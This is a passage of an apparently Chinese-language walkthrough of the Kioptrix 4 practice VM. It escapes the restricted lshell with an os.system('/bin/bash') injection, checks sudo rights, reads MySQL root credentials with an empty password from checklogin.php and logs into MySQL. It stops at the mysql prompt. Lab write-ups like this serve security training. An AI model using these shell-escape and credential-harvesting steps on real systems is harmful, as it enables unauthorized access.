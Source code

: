 ```python
    lshell.main()
```
{% endcode %}

这段代码是一个Python脚本，名为"lshell"。它实现了一个命令行Shell，用于限制用户的访问权限和执行特定命令

### 越狱&#x20;

知道了 shell 的名称，我们可以搜索lshell break out，并找到一[种简单的技术来破解lshell](https://www.aldeid.com/wiki/Lshell#Bypassing\_lshell\_with\_os.system)。

回到我们的 shell，我们可以尝试这个技术：

```
john:~$ echo os.system('/bin/bash')
john@Kioptrix4:~$ id
uid=1001(john) gid=1001(john) groups=1001(john)
```

### 权限提升

限制开始将权限提升至root

快速检查后sudo -l发现我们没有sudo特权。

```
john@Kioptrix4:~$ sudo -l
[sudo] password for john: 
Sorry, user john may not run sudo on Kioptrix4.
```

这里显然没有，让我们看看MySQL

使用 MySQL 反弹 Shell

&#x20;在/var/www目录中，我们可以找到该checklogin.php文件。在该文件的顶部附近，我们找到了一些 MySQL 信用信息：

```
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password
$db_name="members"; // Database name
$tbl_name="members"; // Table name
```

MySQL没有设置密码，我们尝试一下登录MySQL

```
john@Kioptrix4:/var/www$ mysql -uroot -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 15
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql>
```
